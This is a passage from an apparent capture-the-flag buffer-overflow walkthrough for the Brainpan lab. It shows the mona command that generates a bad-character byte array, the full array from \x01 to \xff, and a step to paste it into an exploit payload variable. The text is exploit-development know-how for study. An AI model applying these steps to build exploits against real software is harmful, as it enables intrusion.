 ```md
!mona bytearray -b "\x00"
```

![](./images/bad_chars_gen.PNG)

Then go to :

```md
C:\mona\brainpan\bytearray.txt
```

Opened the "txt" file and copy the entire list of bad characters.

Bad characters :

```md
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17
\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37
\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57
\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77
\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97
\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7
\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7
\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7
\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

Paste the list of bad characters in the **payload** variable :

![](./images/exploit_payload_2.PNG)
